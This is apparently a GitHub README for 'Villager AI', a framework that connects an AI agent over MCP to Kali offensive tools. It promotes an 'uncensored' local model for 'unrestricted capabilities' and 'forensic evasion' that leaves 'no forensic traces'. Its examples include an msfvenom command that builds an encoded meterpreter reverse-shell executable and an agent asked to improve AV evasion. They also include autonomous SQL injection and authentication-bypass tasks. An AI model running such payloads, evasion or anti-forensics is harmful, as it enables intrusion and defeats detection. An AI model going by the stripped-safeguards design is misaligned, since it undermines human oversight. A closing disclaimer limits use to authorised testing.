

<div align="center">

# 🏘️ Villager AI Framework


[](https://opensource.org/licenses/MIT)
[](https://www.python.org/downloads/)
[](https://www.docker.com/)
[](https://github.com/Yenn503/villager-ai-hexstrike-integration)
[](https://modelcontextprotocol.io/)

**🤖 AI-Driven Cybersecurity Automation Platform**

*Intelligent task decomposition • Agent orchestration • Containerized security tools*

[🚀 Quick Start](#-quick-start) • [🏗️ Architecture](#️-architecture) • [🎯 Features](#-key-features) • [📖 Documentation](#-documentation)

</div>

---

## 🌟 Overview

> **Villager AI** is a cutting-edge framework that revolutionizes cybersecurity operations through intelligent AI orchestration, seamless tool integration, and containerized security environments.

<table>
<tr>
<td width="50%">

### 🎯 **What It Does**
- **AI-Driven Operations**: Intelligent task decomposition and agent scheduling
- **Security Tool Integration**: 150+ specialized cybersecurity tools
- **Containerized Execution**: Isolated Kali Linux environments
- **MCP Integration**: Seamless Model Context Protocol support

</td>
<td width="50%">

### 🚀 **Why Choose Villager**
- **True Architecture**: Implements proper Villager framework with TaskNode execution
- **Uncensored AI**: Local Ollama integration for unrestricted capabilities
- **Professional Grade**: Enterprise-ready with comprehensive testing
- **Easy Integration**: Works with any MCP-compatible client

</td>
</tr>
</table>

---

## 🚀 Quick Start

<div align="center">

### ⚡ **One-Command Setup**

```bash
git clone https://github.com/Yenn503/villager-ai-hexstrike-integration.git
cd villager-ai-hexstrike-integration
./scripts/setup.sh
```

**🎉 That's it!** The setup script handles everything automatically.

</div>

<details>
<summary><b>📋 Manual Setup Steps</b></summary>

```bash
# 1. Clone repository
git clone https://github.com/Yenn503/villager-ai-hexstrike-integration.git
cd villager-ai-hexstrike-integration

# 2. Create virtual environment
python3 -m venv villager-venv-new
source villager-venv-new/bin/activate

# 3. Install dependencies
pip install -r requirements.txt

# 4. Configure environment
cp .env.example .env

# 5. Start services
./scripts/start_villager_proper.sh
```

</details>

---

## 🏗️ Architecture

<div align="center">



</div>

### 🔧 **Core Services**

<table>
<tr>
<td width="33%">

#### 🧠 **Villager MCP Server**
- **Port**: N/A (MCP Protocol)
- **Role**: True Villager framework integration
- **Features**: TaskNode execution, AI orchestration

</td>
<td width="33%">

#### 🎯 **Villager Server**
- **Port**: 37695
- **Role**: Task management and orchestration
- **Features**: High-level task coordination

</td>
<td width="33%">

#### 🔗 **MCP Client**
- **Port**: 25989
- **Role**: Service communication hub
- **Features**: Streaming responses, tool routing

</td>
</tr>
<tr>
<td width="33%">

#### 🛡️ **Kali Driver**
- **Port**: 1611
- **Role**: Security tools execution
- **Features**: Containerized tool access

</td>
<td width="33%">

#### 🌐 **Browser Service**
- **Port**: 8080
- **Role**: Web automation
- **Features**: Browser-based operations

</td>
<td width="33%">

#### ⚡ **TaskNode**
- **Role**: Intelligent execution engine
- **Features**: Task decomposition, AI reasoning

</td>
</tr>
</table>

---

## 🎯 Key Features

<div align="center">

| 🚀 **AI & Intelligence** | 🛡️ **Security & Tools** | 🔧 **Integration & Compatibility** |
|:---:|:---:|:---:|
| **🤖 AI-Driven Operations**<br/>Intelligent task decomposition and agent orchestration | **🐳 Containerized Security**<br/>Isolated Kali Linux environments for safe execution | **🔗 MCP Integration**<br/>Seamless Model Context Protocol support |
| **🧠 Uncensored AI**<br/>Local Ollama integration with unrestricted capabilities | **⚡ Real Security Tools**<br/>Access to MSFVenom, Nmap, SQLMap, and 150+ tools | **📊 GitHub Integration**<br/>Repository management and tool discovery |
| **🎯 True Architecture**<br/>Proper Villager framework with TaskNode execution | **🔒 Forensic Evasion**<br/>24-hour self-destruct containers with randomized ports | **🌐 Universal Compatibility**<br/>Works with any MCP-compatible client |

</div>

---

## 🔗 Integration with HexStrike

<div align="center">

### 🤝 **Symbiotic Ecosystem**

<table>
<tr>
<td width="50%">

#### 🤖 **Villager's Role**
**AI Orchestration & Strategy**

- **🎯 Task Decomposition**: Breaks down complex operations into manageable tasks
- **🤖 Agent Scheduling**: Coordinates AI agents for analysis and decision-making
- **🔧 Tool Integration**: Manages security tools via MCP protocol
- **🧠 AI-Driven Logic**: Determines optimal approach for each task

</td>
<td width="50%">

#### 🛡️ **HexStrike's Role**
**Tool Execution & Exploitation**

- **🔧 Tool Arsenal**: Provides 150+ specialized cybersecurity tools
- **💥 Payload Generation**: Creates custom payloads and exploits
- **🔍 Vulnerability Scanning**: Performs deep security assessments
- **📊 Report Generation**: Produces detailed findings and reports

</td>
</tr>
</table>

</div>

---

## 🔧 MCP Integration

<div align="center">

### ⚙️ **Configure Villager in Your MCP Client**

</div>

<details>
<summary><b>📝 Cursor IDE Configuration</b></summary>

Add this to your `mcp_servers.json`:

```json
{
  "mcpServers": {
    "villager-proper": {
      "command": "/path/to/your/Villager-AI/villager-venv-new/bin/python3",
      "args": [
        "/path/to/your/Villager-AI/src/villager_ai/mcp/villager_proper_mcp.py",
        "--debug"
      ],
      "description": "Villager AI Framework - AI-Driven Cybersecurity Automation",
      "timeout": 300,
      "alwaysAllow": [],
      "env": {
        "PYTHONUNBUFFERED": "1",
        "PYTHONPATH": "/path/to/your/Villager-AI",
        "LLM_PROVIDER": "ollama",
        "OLLAMA_BASE_URL": "http://localhost:11434",
        "OLLAMA_MODEL": "deepseek-r1-uncensored"
      }
    }
  }
}
```

> **💡 Tip**: Replace `/path/to/your/Villager-AI` with your actual project path

</details>

---

## 🛠️ Available MCP Tools

<div align="center">

### 🎯 **Core Commands**

</div>

<table>
<tr>
<td width="50%">

#### 📋 **Task Management**
```python
# Create AI-driven tasks
mcp_villager-proper_create_task(
    abstract="Security Assessment",
    description="Comprehensive network scan",
    verification="Detailed report with findings"
)

# Monitor task progress
mcp_villager-proper_get_task_status(task_id)

# List all active tasks
mcp_villager-proper_list_tasks()
```

</td>
<td width="50%">

#### 🤖 **Agent Orchestration**
```python
# Schedule AI agents
mcp_villager-proper_schedule_agent(
    agent_name="Security Analyst",
    task_input="Analyze scan results and prioritize vulnerabilities"
)
```

</td>
</tr>
<tr>
<td width="50%">

#### 🔧 **Tool Execution**
```python
# Execute security tools
mcp_villager-proper_execute_tool(
    tool_name="os_execute_cmd",
    parameters={"system_command": "nmap -sV -sC target.com"}
)

# Available tools:
# • pyeval - Python code execution
# • os_execute_cmd - System commands
# • github_tools - GitHub API integration
```

</td>
<td width="50%">

#### 📊 **System Integration**
```python
# Get comprehensive system status
mcp_villager-proper_get_system_status()

# List all available tools
mcp_villager-proper_list_available_tools()
```

</td>
</tr>
</table>

---

## 💡 Usage Examples

<div align="center">

### 🎯 **Real-World Scenarios**

</div>

<details>
<summary><b>🔍 1. Complete Security Assessment</b></summary>

```python
# Villager's AI handles the entire workflow automatically
result = mcp_villager-proper_create_task(
    abstract="Comprehensive Security Assessment",
    description="""
    Perform a full security assessment on target.com:
    1. Network reconnaissance and port scanning
    2. Service enumeration and version detection
    3. Vulnerability scanning and analysis
    4. Web application security testing
    5. Generate comprehensive report with findings
    """,
    verification="Detailed report with risk levels and recommendations"
)

# The AI will automatically:
# • Decompose into subtasks (nmap, gobuster, nikto, etc.)
# • Schedule appropriate agents
# • Execute tools in sequence
# • Analyze results and generate report
```

</details>

<details>
<summary><b>💥 2. Payload Generation & Testing</b></summary>

```python
# Generate custom payloads for specific targets
result = mcp_villager-proper_execute_tool(
    tool_name="os_execute_cmd",
    parameters={
        "system_command": """
        msfvenom -p windows/meterpreter/reverse_tcp \
        LHOST=192.168.1.100 LPORT=4444 \
        -e x86/shikata_ga_nai -i 10 \
        -f exe -o payload.exe
        """
    }
)

# Test payload delivery mechanisms
result = mcp_villager-proper_schedule_agent(
    agent_name="Payload Analyst",
    task_input="Analyze payload for AV evasion and suggest improvements"
)
```

</details>

<details>
<summary><b>🌐 3. Web Application Testing</b></summary>

```python
# Comprehensive web app security testing
result = mcp_villager-proper_create_task(
    abstract="Web Application Security Assessment",
    description="""
    Test web application at https://target.com:
    1. Directory enumeration and file discovery
    2. SQL injection testing
    3. XSS vulnerability scanning
    4. Authentication bypass attempts
    5. Session management testing
    """,
    verification="Report with discovered vulnerabilities and proof-of-concepts"
)
```

</details>

---

## 🚀 Framework Management

<div align="center">

### ⚡ **Starting the Framework**

</div>

<table>
<tr>
<td width="50%">

#### 🚀 **One-Command Startup**
```bash
./scripts/start_villager_proper.sh
```

**✅ Automatic Services:**
- Villager Server (37695)
- MCP Client (25989)
- Kali Driver (1611)
- Browser Service (8080)

</td>
<td width="50%">

#### 🔧 **Manual Startup**
```bash
# Activate environment
source villager-venv-new/bin/activate

# Start services
./scripts/start_villager_proper.sh

# Verify all services
curl http://localhost:37695/health
curl http://localhost:25989/health
curl http://localhost:1611/health
curl http://localhost:8080/health
```

</td>
</tr>
</table>

---

## 🔧 Configuration

<div align="center">

### ⚙️ **Environment Setup**

</div>

<details>
<summary><b>🤖 AI Configuration (Recommended: Ollama)</b></summary>

```bash
# Local AI (Uncensored & Private)
export LLM_PROVIDER="ollama"
export OLLAMA_BASE_URL="http://localhost:11434"
export OLLAMA_MODEL="deepseek-r1-uncensored"

# Start Ollama
ollama serve &
ollama pull deepseek-r1-uncensored
```

</details>

<details>
<summary><b>🌐 API-Based AI (Alternative)</b></summary>

```bash
# DeepSeek API
export LLM_PROVIDER="deepseek"
export DEEPSEEK_API_KEY="your-api-key-here"

# OpenAI API
export LLM_PROVIDER="openai"
export OPENAI_API_KEY="your-api-key-here"
```

</details>

<details>
<summary><b>📊 GitHub Integration (Optional)</b></summary>

```bash
# GitHub API access
export GITHUB_TOKEN="your-github-token-here"
```

</details>

---

## 🧪 Testing

<div align="center">

### ✅ **Comprehensive Test Suite**

</div>

```bash
# Run complete test suite
./tests/run_tests.sh
```

<table>
<tr>
<td width="33%">

#### 🔧 **Environment Tests**
- ✅ System dependencies
- ✅ Python environment
- ✅ Virtual environment
- ✅ Package installation

</td>
<td width="33%">

#### 🧠 **Framework Tests**
- ✅ Villager imports
- ✅ MCP server initialization
- ✅ TaskNode execution
- ✅ Agent scheduling

</td>
<td width="33%">

#### 🛡️ **Security Tests**
- ✅ Docker availability
- ✅ Kali tools access
- ✅ MSFVenom functionality
- ✅ Container execution

</td>
</tr>
</table>

---

## 📚 Documentation

<div align="center">

### 📖 **Complete Documentation Suite**

</div>

<table>
<tr>
<td width="25%">

#### 📋 **Setup & Installation**
- [🚀 Quick Start Guide](SYSTEM_REQUIREMENTS.md)
- [🔧 Configuration Guide](docs/SETUP_GUIDE.md)
- [🐳 Docker Setup](docker/README.md)

</td>
<td width="25%">

#### 🤖 **AI & Usage**
- [🧠 AI Assistant Guide](docs/AI_ASSISTANT_GUIDE.md)
- [💡 Usage Examples](examples/)
- [🎯 Best Practices](docs/README.md)

</td>
<td width="25%">

#### 🔧 **Development**
- [📝 Contributing Guide](CONTRIBUTING.md)
- [🧪 Testing Guide](tests/README.md)
- [📊 API Reference](docs/API.md)

</td>
<td width="25%">

#### 🆘 **Support**
- [🔧 Troubleshooting](docs/TROUBLESHOOTING.md)
- [❓ FAQ](docs/FAQ.md)
- [🐛 Bug Reports](.github/ISSUE_TEMPLATE/)

</td>
</tr>
</table>

---

## 🎯 Cyberspike Integration

<div align="center">

### 🛡️ **True Cyberspike Architecture**

</div>

<table>
<tr>
<td width="50%">

#### ✅ **Implemented Features**
- **🐳 Cyberspike Docker Image**: `gitlab.cyberspike.top:5050/aszl/diamond-shovel/al-1s/kali-image:main`
- **⏰ 24-Hour Self-Destruct**: Automatic container cleanup
- **🔐 SSH-Based Execution**: Secure command execution
- **🎲 Forensic Evasion**: Randomized ports and ephemeral containers

</td>
<td width="50%">

#### 🔧 **Security Features**
- **🛡️ Isolated Environments**: Complete container isolation
- **🔒 Secure Communication**: SSH-based tool execution
- **🧹 Auto-Cleanup**: No forensic traces left behind
- **⚡ Pre-installed Tools**: Ready-to-use security arsenal

</td>
</tr>
</table>

---

## ⚠️ Disclaimer

<div align="center">

### 🚨 **Important Legal Notice**

</div>

> **⚠️ This framework is for educational and authorized testing purposes only.**

<table>
<tr>
<td width="50%">

#### ✅ **Authorized Use**
- Educational purposes
- Authorized penetration testing
- Security research
- Controlled environments
- Own systems testing

</td>
<td width="50%">

#### ❌ **Prohibited Use**
- Unauthorized access
- Malicious activities
- Illegal operations
- Production systems without permission
- Any unlawful activities

</td>
</tr>
</table>

**📋 User Responsibilities:**
- ✅ Obtain explicit permission before testing any system
- ✅ Use only in controlled, isolated environments
- ✅ Comply with all applicable laws and regulations
- ✅ Take full responsibility for your actions

---

## 📄 License

<div align="center">

### 📜 **MIT License**

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

**🆓 Free to use • Modify • Distribute • Commercial use**

</div>

---

<div align="center">

## 🌟 **Villager AI Framework**

*Intelligent Cybersecurity Automation*

**🤖 AI-Powered • 🛡️ Security-Focused • 🔧 Developer-Friendly**

[](https://github.com/Yenn503/villager-ai-hexstrike-integration)
[](https://github.com/Yenn503/villager-ai-hexstrike-integration)
[](https://github.com/Yenn503/villager-ai-hexstrike-integration/issues)

**Made with ❤️ by the Villager AI Team**

</div>